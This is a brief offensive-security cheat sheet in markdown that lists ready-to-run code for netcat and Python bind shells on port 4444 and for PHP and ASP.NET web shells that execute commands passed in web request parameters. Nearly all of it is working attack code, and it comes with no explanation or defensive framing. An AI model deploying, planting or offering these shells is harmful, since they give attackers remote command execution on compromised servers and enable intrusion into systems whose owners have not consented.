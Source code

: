 ### Bind Shell Implementations

#### Netcat Bind Shell

```bash
# Traditional netcat
nc -lvp 4444 -e /bin/bash

# OpenBSD netcat (without -e)
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 4444 > /tmp/f
```

#### Python Bind Shell

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.bind(("0.0.0.0",4444))
s.listen(1)
conn,addr=s.accept()
os.dup2(conn.fileno(),0)
os.dup2(conn.fileno(),1)
os.dup2(conn.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

### Web Shell Implementations

#### PHP Web Shell

```php
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```

#### ASP.NET Web Shell

```csharp
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<script runat="server">
void Page_Load(object sender, EventArgs e)
{
    if (Request.QueryString["cmd"] != null)
    {
        Process p = new Process();
        p.StartInfo.FileName = "cmd.exe";
        p.StartInfo.Arguments = "/c " + Request.QueryString["cmd"];
        p.StartInfo.UseShellExecute = false;
        p.StartInfo.RedirectStandardOutput = true;
        p.Start();
        Response.Write("<pre>" + p.StandardOutput.ReadToEnd() + "</pre>");
    }
}
</script>
```
